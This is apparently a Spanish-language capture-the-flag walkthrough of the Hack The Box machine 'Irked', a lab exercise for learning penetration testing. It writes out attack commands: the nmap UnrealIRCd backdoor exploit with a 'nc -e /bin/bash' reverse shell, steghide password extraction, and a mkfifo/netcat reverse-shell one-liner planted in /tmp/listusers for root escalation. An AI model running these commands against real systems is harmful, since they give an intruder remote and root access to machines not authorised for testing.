

# 🏳 Irked


<figure><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/Irked">Irked</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.10.117</td><td></td></tr><tr><td>Sistema simulado: </td><td>Debian</td><td></td></tr><tr><td>Servicio vulnerado: </td><td>UnrealIRCd</td><td></td></tr><tr><td>CVEs:</td><td><a href="https://nvd.nist.gov/vuln/detail/CVE-2010-2075">2010-2075</a></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos la fase de enumeración de la máquina Irked realizando una petición mediante nmap a  la IP desplegada buscando la información necesaria para comenzar. Comenzamos:

```bash
nmap -sC -sV -sT 10.10.10.117
```

<div align="center">

<figure><figcaption></figcaption></figure>

</div>

Nos percatamos de que en el puerto 22 existe un servicio OpenSSH 6.7 al cual hecharemos un vistazo más adelante. Ahora revisaremos el http de la máquina, en el cual nos aparece el mensaje "IRC is almost working".

<figure><figcaption></figcaption></figure>

Seguiremos la pista del IRC y buscaremos si existe un servicio IRC en la máquina el cual no esté en un puerto común. Para ello pediremos a NMAP que busque en todos los puertos de la máquina, para ello usaremos el tag -p-:

```bash
nmap -sC -sV -sT 10.10.10.117 -p-
```

<figure><figcaption></figcaption></figure>

En este punto encontramos varios servicios UnrealIRCd de IRC e incluso un email.&#x20;

### 2. Análisis de vulnerabilidades

En este punto vamos a comenzar a buscar información sobre el servicio UnrealIRCd y las vulnerabilidades conocidas en el servicio.&#x20;

<figure><figcaption><p>Uso de Searchexploit en busqueda de exploits conocidos en UnrealIRCd</p></figcaption></figure>

<figure><figcaption><p>Búsqueda de exploits en ExploitDatabase</p></figcaption></figure>

Son algunos de los métodos que tenemos para acceder a esta máquina, aunque nosotros utilizaremos un script de nmap para ganar acceso a la misma. El script que hemos encontrado se encuentra documentad en la [página oficial de Nmap](https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html) y explica como debemos usarlo así como nos facilita el [enlace de descarga](https://svn.nmap.org/nmap/scripts/irc-unrealircd-backdoor.nse) del mismo. Para desplegarlo recuerda guardar el script en la ruta `/usr/share/nmap/scripts` y que tenga la extensión `.nse` .&#x20;

### 3. Explotación

Llegado este punto ejecutaremos el script apuntando a la IP los puertos con el servicio IRC depslegado para averiguar cual de ellos es vulnerable.&#x20;

```bash
nmap -p 6697,8067,65534 --script irc-unrealircd-backdoor 10.10.10.117
```

<figure><figcaption></figcaption></figure>

En este punto ejecutaremos el backdoor y lo redirigiremos hacia el netcat que tenemos levantado en el puerto 4444 en nuestro caso.&#x20;

```bash
nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash [IP] [PORT]"  10.10.10.117
```

Esperaremos unos segundos tras ejecutar el comando hasta que nuestro Netcat reciba la conexión correctamente.&#x20;

<figure><figcaption></figcaption></figure>

En este punto ya tendremos una shell abierta en nuestra máquina con el usuario ircd de la máquina Irked. Realizaremos un tratamiento de la TTY con Python mediante:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

El usuario carece de permisos para poder visualizar la flag de user por lo que tendremos que intentar conseguir otro usuario u método de acceso a la flag y posteriormente acceso a root para finalizar la máquina.&#x20;

<figure><figcaption></figcaption></figure>

### 4. Escalada de privilegios usuario

En este punto revisamos los diferentes directorios hasta encontrarnos un fichero backup oculto en la carpeta documents el cual parece tener una contraseña.&#x20;

<figure><figcaption></figcaption></figure>

El problema es ¿Donde usamos esta contraseña? ya que cuando intentamos acceder a djmardov con ella no nos lo permite... Tras investigar un rato caemos.... La imagen que vimos en el HTTP con un emoji puede que contenga algo de información... Es por ello que vamos a realizar una análisis para ver si hay algo oculto.&#x20;

```
steghide info irked.jpg
```

<figure><figcaption></figcaption></figure>

Al introducir la contraseña nos informa de que existe un archivo llamado pass.txt. Es por ello que ejecutaremos `steghide extract -sf irked.jpg` y extraeremos el archivo pass en el cual se incluirá la contraseña con la que podremos acceder a djmardov y visualizar la flag del usuario.

<figure><figcaption></figcaption></figure>

### 5. Escalada de privilegios Root

Llegado este punto nos toca buscar una manera de hacernos con el usuario Root y ganar acceso total a la máquina. Encontramos un binario llamado viewuser el cual puede servirnos para generar la escalada.&#x20;

<figure><figcaption></figcaption></figure>

Al ejecutar la aplicación viewuser nos aparecerá el siguiente mensaje sobre la aplicaciçon la cual está buscando el fichero en /tmp/listusers.

<figure><figcaption></figcaption></figure>

Nos aprovecharemos de que este servicio está corriendo constantemente mediante root para volcar en el archivo la generación de una bash.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f" > /tmp/listusers
```

Después deberemos de aprovecharnos del usuario djmardov para dar algunos permisos al fichero generado.

```bash
chmod a+x /tmp/listusers
```

Una vez realizado esto deberemos ejecutar viewuser, teniendo un netcat abierto a la escucha en el puerto que hayamos configurado, y con ello tendremos acceso como root a la máquina y podremos ver la flag.

<figure><figcaption></figcaption></figure>


Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)


